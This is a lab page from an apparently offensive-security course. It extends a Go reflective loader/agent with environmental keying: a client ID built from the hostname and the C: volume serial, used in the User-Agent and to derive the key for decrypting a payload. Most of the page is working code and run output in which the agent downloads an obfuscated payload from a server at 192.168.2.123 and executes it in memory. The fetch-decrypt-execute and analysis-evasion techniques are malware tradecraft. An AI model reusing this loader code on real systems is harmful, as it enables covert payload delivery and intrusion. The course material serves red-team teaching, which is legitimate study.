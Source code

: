 ```yaml
---
showTableOfContents: true
title: "Implement Client ID and Key Derivation (Lab 8.2)"
type: "page"
---
```

## Goal
We'll now implement the final piece of the client-side logic for this module, and in fact the course as a whole: generating the client ID dynamically based on system information and integrating it fully into the communication and key derivation process.

So we'll only modify our agent/loader in this lab, and we'll pick up exactly where we left off over there. In that lab we hardcoded our clientID value as `MyTestClient-9876`, but now we want to generate it dynamically based on system characteristics (hostname and volume serial number). We'll then use this dynamically generated ID, along with the current timestamp, in both the User-Agent header sent to the server and in the client-side key derivation process to ensure it matches the key derived by the server.


## Code
Add the following function to the loader/agent application from Lab 8.1


```go
// Get system information for client identification
func getEnvironmentalID() (string, error) {
	// Get system volume information for environmental keying
	var volumeName [256]uint16 // Buffer for volume name (not used for ID)
	var volumeSerial uint32    // Variable to store the serial number

	// GetVolumeInformation for C: drive
	// We pass nil for pointers we don't need, except volumeSerial.
	err := windows.GetVolumeInformation(
		windows.StringToUTF16Ptr("C:\\"), // Target volume C:
		&volumeName[0],                   // Buffer for name (optional)
		uint32(len(volumeName)),          // Size of name buffer
		&volumeSerial,                    // Pointer to store serial number <<< IMPORTANT
		nil,                              // Pointer for max component length (optional)
		nil,                              // Pointer for file system flags (optional)
		nil,                              // Buffer for file system name (optional)
		0,                                // Size of file system name buffer
	)
	if err != nil {
		return "", fmt.Errorf("failed to get volume info: %w", err)
	}

	// Get hostname
	hostname, err := os.Hostname()
	if err != nil {
		return "", fmt.Errorf("failed to get hostname: %w", err)
	}

	// Combine information to create a unique but predictable client ID
	// Format: <first 5 chars of hostname>-<volume serial as hex>
	shortName := hostname
	if len(hostname) > 5 {
		shortName = hostname[:5] // Truncate hostname if longer than 5 chars
	}

	// Use Sprintf with %x verb to format the serial number as lowercase hex
	clientID := fmt.Sprintf("%s-%x", shortName, volumeSerial)
	fmt.Printf("[+] Generated Client ID: %s\n", clientID)

	return clientID, nil
}
```

And now we'll just need to make a small adjustment to `main()` to use this new function to derive the `clientID`.

Replace this line:
```go
clientID := "MyTestClient-9876"
```

With:
```go
fmt.Println("[+] Generating client ID from environment...")
clientID, err := getEnvironmentalID()
if err != nil {
    log.Fatalf("[-] Failed to generate client ID: %v", err)
}
```

## Code Breakdown
- The hardcoded placeholder `clientID` is removed.
- Instead, it's now being assigned the return value `getEnvironmentalID`
- This function combines the first 5 characters of the host name with the HD's serial number.
- The rest of the execution flow is the exact same, we are just now using this dynamically generated clientID value instead of the hardcoded value as we did before.


## Instructions
Run the exact same server from Lab 8.1 - this remains unchanged. You can once again either use `go build`, or from the directory containing the server, private key, cert, and `calc_dll.dll`simply run:

```
go run .
```

Then, compile the new loader+agent application, and copy it over to target system.

```shell
GOOS=windows GOARCH=amd64 go build  
```

Once on your target system simply invoke our new application.

## Results
```shell
PS C:\Users\vuilhond\Desktop> .\reflect_agent.exe
[+] Reflective Loader Agent (Network Download)
[+] Generating client ID from environment...
[+] Generated Client ID: DESKT-5c9150c8
[+] Downloading payload...
[+] Connecting to server: https://192.168.2.123:8443/update
[+] Using Timestamp: 1745685920
[+] Using ClientID: DESKT-5c9150c8
[+] Sending User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) rv:1745685920-DESKT-5c9150c8
[+] Downloaded 111493 bytes of obfuscated payload.
[+] Deriving decryption key...
    Using Timestamp for Key: 1745685920
    Using ClientID for Key: DESKT-5c9150c8
[+] Decrypting downloaded content...
[+] Decryption complete. Resulting size: 111493 bytes.

// REST OF OUTPUT IS THE SAME AS BEFORE

```

And of course we'll also see `calc.exe` pop up.

## Discussion
We can now see that we are dynamically generating a client ID (`Generated Client ID: DESKT-5c9150c8`), and that we are then using this value in our User-Agent (`[+] Sending User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) rv:1745685920-DESKT-5c9150c8`).

And of course the fact that we are able to once again launch `calc.exe` confirms that the agent correctly generated the client ID, sent it to the server, and used it (along with the correct timestamp) to derive the appropriate decryption key, matching the key derived by the server based on the received User-Agent. This completes the integration of the dynamic client identification with the key derivation process.

## Conclusion
That wraps it up it for this course, in the next section we'll review what we've done, as well as discuss the weakness of our current implementation, which we will then improve on in our next course :D


---
[|TOC|]({{< ref "../moc.md" >}})
[|PREV|]({{< ref "cs_lab.md" >}})
[|NEXT|]({{< ref "dll_loading.md" >}})